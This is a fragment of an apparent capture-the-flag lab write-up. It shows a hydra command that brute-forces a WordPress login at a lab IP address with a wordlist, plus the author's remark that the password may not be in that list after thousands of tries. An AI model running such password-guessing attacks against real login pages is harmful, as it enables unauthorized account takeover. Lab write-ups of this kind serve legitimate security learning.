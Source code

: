 So... the password would be on the dic also?

`hydra -l <FOUND USERNAME HERE> -P /root/fsocity.dic 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -V`

![Untitled](images/Untitled%2031.png)

After a few minutes and more that 5k tries... maybe the password is not in this file. Let’s check it:

![Untitled](images/Untitled%2032.png)
